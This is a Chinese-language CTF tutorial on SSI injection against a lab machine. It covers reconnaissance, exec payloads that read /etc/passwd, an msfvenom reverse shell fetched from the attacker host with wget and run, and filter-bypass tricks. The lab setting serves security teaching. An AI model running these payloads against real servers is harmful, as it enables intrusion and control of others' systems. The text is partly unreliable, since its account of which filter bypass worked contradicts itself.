








# CTF入门课程：P17：CTF夺旗-SSI注入 🚩

在本节课中，我们将学习一种名为SSI注入的Web安全漏洞。通过利用此漏洞，攻击者可以从外部向服务器注入并执行系统命令，最终获取服务器权限。我们将从SSI技术的基础概念讲起，逐步搭建实验环境，进行信息探测，并最终完成一次完整的SSI注入攻击实践。

## 什么是SSI注入？🔍

上一节我们介绍了课程目标，本节中我们来看看SSI注入的核心概念。

SSI代表Server Side Includes，即服务端包含。SSI技术的出现是为了赋予HTML静态页面动态效果。在动态网页技术（如PHP、ASP）普及之前，SSI和CGI被广泛应用于HTML静态页面，为其提供动态交互能力。

其基本原理是：Web服务器会解析SHTML文件中的特定SSI标签，执行标签中定义的命令（如系统命令），并将执行结果返回到页面中，从而实现一种“动态”的交互效果。

如果在网站目录中发现 `.shtml` 或 `.stm` 后缀的文件，通常表示该网站使用了SSI技术。如果网站对用户输入到SSI标签中的内容没有进行严格过滤，就会导致SSI注入漏洞。攻击者可以借此让服务器执行恶意系统命令。

SSI执行命令的典型标签格式如下：
```html
<!--#exec cmd="ls" -->
```

## 实验环境搭建 🛠️

了解了SSI注入的原理后，我们需要一个环境来实践。本节将介绍实验环境的配置。

*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.103`
*   **靶机**：一台存在SSI注入漏洞的Linux服务器
    *   IP地址：`192.168.1.106`

我们的最终目标是获取靶机上的flag值。为此，首先需要获得对靶机的控制权限。

## 信息探测与收集 📡



在发起攻击前，必须对目标进行充分的信息收集。本节我们将使用多种工具探测靶机。



首先，探测靶机开放的服务及其版本信息。我们使用Nmap进行扫描。



以下是扫描靶机服务的命令：
```bash
nmap -sV 192.168.1.106
```
此命令会向靶机发送探测数据包，并根据返回信息分析开放端口的服务类型和版本。

为了获取更全面的信息（包括操作系统），可以使用Nmap的激进扫描模式：
```bash
nmap -A -v -T4 192.168.1.106
```
参数说明：
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出。
*   `-T4`：指定扫描速度，T4为较快速度。

扫描结果显示，靶机仅开放了80端口，运行着Apache HTTP服务。

接下来，使用`nikto`对HTTP服务进行更深度的漏洞扫描：
```bash
nikto -h http://192.168.1.106
```
`nikto`会检查Web服务器是否存在多种已知的安全问题，如错误配置、默认文件、过时软件等。

同时，使用`dirb`工具来发现网站隐藏的目录和文件：
```bash
dirb http://192.168.1.106
```

## 漏洞分析与定位 🎯



在收集到足够信息后，我们需要对其进行分析，找到潜在的突破口。本节我们将仔细审查扫描结果。

分析`nikto`和`dirb`的扫描结果，我们发现了几个关键点：
1.  服务器是Ubuntu系统，使用Apache 2.4.18。
2.  发现了一个名为`/ssi/`的目录。
3.  发现了`index.shtml`文件，这强烈暗示网站使用了SSI技术。
4.  发现了`robots.txt`文件，其中禁止爬取某些目录，这通常是敏感目录的指示器。

以下是需要手动访问和检查的敏感路径：
*   `http://192.168.1.106/ssi/`
*   `http://192.168.1.106/robots.txt`
*   `robots.txt`中禁止访问的目录



访问`/ssi/`目录时，页面返回了类似执行`ls -la`命令的结果，显示了文件列表和我们的IP地址。这证实了该页面存在命令执行功能，并且很可能存在注入点。



在网站根目录的`index.php`备份文件(`index.php.bak`)中，发现了一条注释，其格式提示了SSI命令注入的利用方法：
```
<!--#exec cmd="whoami" -->
```

## 实施SSI注入攻击 ⚔️

找到了疑似注入点，本节我们将尝试构造并注入恶意SSI命令。

访问`http://192.168.1.106/ssi/`，页面中存在一个输入表单。我们尝试输入从注释中获得的Payload：
```
<!--#exec cmd="whoami" -->
```
提交后，页面没有返回命令结果，可能被过滤了。

检查页面源代码，发现`exec`关键字被注释掉了。尝试使用大小写绕过过滤：
```
<!--#EXEC cmd="whoami" -->
```
提交后依然没有成功。根据SSI语法，需要在`exec`前添加感叹号(`!`)。构造最终的有效Payload：
```
<!--#!EXEC cmd="cat /etc/passwd" -->
```
提交后，成功在页面上看到了`/etc/passwd`文件的内容，证明了SSI注入漏洞存在且可利用。

## 获取反向Shell与权限提升 🐚

证明了命令执行能力后，我们的目标是获得一个交互式的反向Shell连接，以便进一步控制靶机。本节将分步实现。

**步骤1：生成反向Shell负载**
在Kali攻击机上，使用`msfvenom`生成一个Python反向Shell脚本。
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw -o /root/Desktop/shell.py
```
*   `-p python/meterpreter/reverse_tcp`：指定生成Python的Meterpreter反向TCP负载。
*   `LHOST=192.168.1.103`：设置监听主机（攻击机）IP。
*   `LPORT=4444`：设置监听端口。
*   `-f raw`：输出格式为原始脚本。
*   `-o /root/Desktop/shell.py`：输出文件路径。

**步骤2：启动监听器**
在Kali上启动Metasploit框架，设置监听以接收靶机反弹回来的Shell。
```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 192.168.1.103
set LPORT 4444
exploit
```



**步骤3：托管Shell脚本并让靶机下载**
将生成的`shell.py`移动到Apache web根目录，并启动Apache服务。
```bash
cp /root/Desktop/shell.py /var/www/html/
systemctl start apache2
```
通过SSI注入漏洞，让靶机下载并执行该脚本。在Web表单中输入以下命令：
```
<!--#!EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/shell.py && python /tmp/shell.py" -->
```
提交后，如果一切正常，我们将在Metasploit的监听器中看到一个新的Meterpreter会话建立。

**步骤4：优化Shell交互环境**
获得的Meterpreter Shell功能强大但交互性不强。我们可以将其升级为一个全功能的TTY Shell。
在Meterpreter会话中执行：
```bash
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```
执行后，我们将获得一个具有完整作业控制、命令历史记录等功能的Bash Shell。

**步骤5：寻找Flag**
在CTF比赛中，最后一步通常是寻找并读取flag文件。Flag通常存放在根目录、用户目录或Web目录下。
```bash
find / -name “*flag*” 2>/dev/null
cat /path/to/flag.txt
```

## 总结与绕过技巧 💡

本节课中我们一起学习了SSI注入攻击的完整流程。

我们首先了解了SSI技术的基本原理及其产生漏洞的原因。随后，通过Nmap、Nikto、Dirb等工具对靶机进行了系统化的信息收集。在分析发现`index.shtml`和敏感的`/ssi/`目录后，我们成功定位到注入点。通过构造`<!--#!EXEC cmd=”command” -->`格式的Payload，并利用**大小写混合（如`EXEC`）** 的方式绕过简单的关键字过滤，最终实现了远程命令执行。

在实际的CTF比赛或安全评估中，防御措施可能更复杂。除了大小写绕过，还可能需要的绕过技巧包括：
*   **使用编码**：如URL编码、Base64编码命令。
*   **利用字符串拼接**：`cmd="w"+"ho"+"ami"`。
*   **使用通配符**：例如`/???/??t /???/??ss??d` 可能匹配 `/bin/cat /etc/passwd`。
*   **寻找替代命令**：如果`cat`被过滤，可以尝试`tac`、`more`、`less`、`head`、`tail`等。



掌握这些基础攻击步骤和绕过思路，是深入理解Web安全漏洞的关键。